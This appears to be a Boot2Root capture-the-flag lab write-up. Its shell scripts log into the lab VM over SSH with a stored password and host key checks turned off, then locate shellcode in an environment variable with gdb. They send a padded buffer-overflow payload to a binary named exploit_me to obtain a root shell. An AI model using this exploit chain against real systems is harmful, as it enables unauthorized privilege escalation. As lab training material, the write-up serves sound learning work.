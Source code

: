 ## Find our VM IP
```shell
IP=`prlctl list -f | grep "Boot2Root" | awk '{print $3}'`
echo $IP
```

Declare ssh_executor and scp_uploader
```shell
ssh_executor () {
  sshpass -p "$ssh_password" ssh -o StrictHostKeyChecking=no $ssh_login@$IP "$1" 2> /dev/null
}
scp_uploader () {
  sshpass -p "$ssh_password" scp $1 $ssh_login@$IP:$2 2> /dev/null
}
ssh_login="zaz"
ssh_password=`cat ../scripts/writeup2/zaz_password`
```

## Root shell

### Get SHELL_CODE address
```shell
scp_uploader "../scripts/writeup7/shell_code.py" "~/"
shell_code_address=$(echo -e "\n" | ssh_executor 'export SHELL_CODE=`python shell_code.py` && echo -e "q" | gdb ./exploit_me -q -ex "b* main" -ex "r" -ex "x/200s environ" | grep SHELL_CODE | cut -d ":" -f 1')
echo $shell_code_address
shell_code_address=`python3 ../scripts/writeup2/zaz.py 'address' $shell_code_address`
echo $shell_code_address
```

### A little magic
```shell
cmd="\$(python -c 'print \".\" * 140 + \"$shell_code_address\"')"
ssh_executor << EOF 
echo $cmd > shell_code
EOF
```

### Run root shell
```shell
ssh_executor 'export SHELL_CODE=`python shell_code.py` && (echo "id && whoami"; cat - ) | ./exploit_me `cat shell_code`'
```